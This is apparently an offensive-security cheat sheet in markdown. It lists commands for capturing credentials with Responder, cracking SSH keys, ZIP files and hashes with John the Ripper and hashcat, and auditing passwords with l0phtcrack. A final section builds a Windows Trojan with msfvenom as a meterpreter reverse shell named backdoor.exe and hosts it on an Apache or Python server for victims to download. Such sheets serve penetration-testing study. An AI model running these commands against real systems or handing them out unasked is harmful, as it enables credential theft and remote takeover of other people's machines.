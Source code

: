 >  Responder: Obtaining credentials
- `sudo ./Responder.py -I interface`

> transform ssh private key .txt to john format
- `ssh2john ssh.txt >key.txt`
- `john key.txt -w=/usr/share/wordlists/rockyou.txt`
- `cp ssh.txt privateKey.pem`
- `chmod 600 privateKey.pem`
- `ssh -i privateKey.pem user@ip`

> crack .zip pass with hash 

- `zip2john archivo.zip > hashdelzip.hasH`


> John The Ripper: Crack the hash
- `john hash.txt`
- `john key.txt -w=/usr/share/wordlists/rockyou.txt`
- `john --wordlist=path hash`
- `john hash --show`
- `john --format=hash_type --wordlist=pathWordlist pathFileContainsHash`

> Hash identifier:
* `hash-identifier hash`

> Hashcat
- `hashcat -m 0 -a 0 pathFileContainsHash pathWordlist`
	- “-m”: type hash we are cracking (for example 0 = MD5).
	- “-a 0”: designates a dictionary attack.

>Crackstation
- https://crackstation.net/

> l0phtcrack (Windows): Audit system passwords
* Click Password auditing wizard > Next > Choose the target system type (Windows or Linux) > A remote machine > Type the IP target and credentials > Choose audit type


## <span style="color: #3498db; font-size: 0.8em;">  Create a Reverse Shell</span>

>  Create a Trojan with msfvenom (reverse shell)
- `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=IP LPORT=port -o ./test.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=port -f exe > /home/attacker/Desktop/backdoor.exe`

> Init a server with apache2 (/var/www/html)
- `mkdir /var/www/html/share`
- `chmod -R 755 /var/www/html/share`
- `chmod -R www-data:www-data /var/www/html/share`
- `cp /test.exe /var/www/html/share`
- `service apache2 start`

 Or python server
- `python3 -m http.server port`
